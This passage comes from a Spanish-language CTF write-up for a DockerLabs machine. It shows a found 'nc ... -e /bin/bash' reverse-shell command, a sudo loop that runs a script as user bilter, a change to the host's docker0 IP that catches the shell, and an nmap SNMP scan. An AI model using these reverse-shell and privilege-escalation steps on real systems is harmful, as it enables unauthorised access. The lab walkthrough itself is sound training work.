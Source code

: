 al ejecutarlo vemos que el comando final es el siguiente:

```css
nc 172.17.0.186 6068 -e /bin/bash &>/dev/null &
```

Sabiendo esto, tendremos que cambiar la ip de la red docker0 en nuestro host para recibir la reverse shell. Para esto debemos hacer lo siguiente:

• Primero ejecutamos este oneliner para que cada 15 segundos se ejecute como el usuario bilter el script:

```css
while true; do sudo -u bilter /opt/life.sh; sleep 1; done
```

• Segundo cambiamos la ip de nuestro host:

```css
sudo ip address del 172.17.0.1/16 dev docker0
sudo ip address add 172.17.0.186/16 dev docker0
```

• Finalmente escuchamos en el puerto 6068 y nos llega la shell:

```css
❯ nc -nlvp 6068
Listening on 0.0.0.0 6068
Connection received on 172.17.0.2 33914
id
uid=1000(bilter) gid=1000(bilter) groups=1000(bilter),100(users)

```

### Bilter

Nuevamente si ejecutamos `sudo -l`, veremos que podemos ejecutar otra vez un script de bash, el problema es que este al ejecutarlo no nos dice nada mas que un numero:

```css
161
bilter@dockerlabs:/home/dimer$ 
```

#### Nmap UDP

Luego de probar demasiadas cosas, se me ocurre realizar un escaneo de nmap por udp y veo lo siguiente:

```css
sudo nmap -sU -p161 172.17.0.2 -sV -sC
```

```ruby
# Nmap 7.95 scan initiated Sun Feb  2 21:36:48 2025 as: nmap -sU -p161 -sV -sC -oN a 172.17.0.2
Nmap scan report for lifeordead.dl (172.17.0.2)
Host is up (0.000090s latency).

PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 7f3cbe5245328e6700000000
|   snmpEngineBoots: 12
|_  snmpEngineTime: 5m39s
| snmp-sysdescr: Linux dockerlabs 6.6.69-1-lts #1 SMP PREEMPT_DYNAMIC Thu, 02 Jan 2025 22:00:49 +0000 x86_64
|_  System uptime: 5m39.08s (33908 timeticks)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: dockerlabs

```